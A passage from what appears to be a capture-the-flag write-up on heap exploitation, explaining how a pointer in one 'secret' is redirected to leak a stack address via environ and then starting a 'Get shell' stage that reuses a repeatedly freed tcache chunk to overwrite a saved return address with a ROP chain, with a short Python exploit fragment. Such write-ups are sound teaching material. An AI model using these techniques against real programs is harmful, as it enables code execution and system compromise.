 The reason why I edit secret 1 is because secret 1 has `secret_data` is the pointer point to secret 2 so we can change the `secret_data` of secret 2 into environ and get the address of stack:

![get-stack-leaked.png](images/get-stack-leaked.png)

### Stage 5: Get shell

Now, we will want to control the saved rip of `create_secret`, we will need a bigger chunk to put our ROPchain into it. We will do as stage 1 to get a chunk to be freed multiple time with size of `0x410` (included heap metadata and it will be added to tcache, not unsorted bin):

```python
create(b'E'*8, 0x408, flat(saved_rip), 1, useprev=0)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
dec(3)
```
